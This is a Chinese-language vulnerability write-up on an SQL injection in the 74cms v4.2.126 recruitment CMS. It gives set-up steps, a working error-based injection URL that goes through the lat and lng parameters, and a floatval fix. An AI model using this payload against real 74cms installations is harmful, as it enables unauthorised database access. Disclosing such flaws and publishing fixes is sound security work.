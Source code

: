 74cms v4.2.126-通杀sql注入
==========================

0x00 前言
=========

厂商：74cms下载地址：<http://www.74cms.com/download/index.html>

关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
======================

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为  <http://baidu.com> 即可

0x02 数据填充不然没得测试
=========================

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId26.png)

0x02.1注册商家账号方便测试
--------------------------

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了注册完成以后将此商家用户登录前台

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId28.png)

0x02.2注册普通账号方便测试
--------------------------

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId30.png)

0x03 sql漏洞演示
================

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId32.png)

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId33.png)

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

    Payload: 
    http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId34.png)

0x04 漏洞原理
=============

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId36.png)

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId37.png)

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId38.png)

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId39.png)

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId40.png)

16.png

说明我们的猜想是没有错的。

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId41.png)

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId42.png)

所以最终我们符合条件的内容都会赋值为\$this-\>params

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId43.png)

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId44.png)

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId45.png)

0x05 修复方法
=============

![](./resource/74cmsv4.2.126-通杀sql注入/media/rId47.png)

    $this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2)+COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range";

强转为浮点型，防止注入

四、参考链接
------------

> https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2
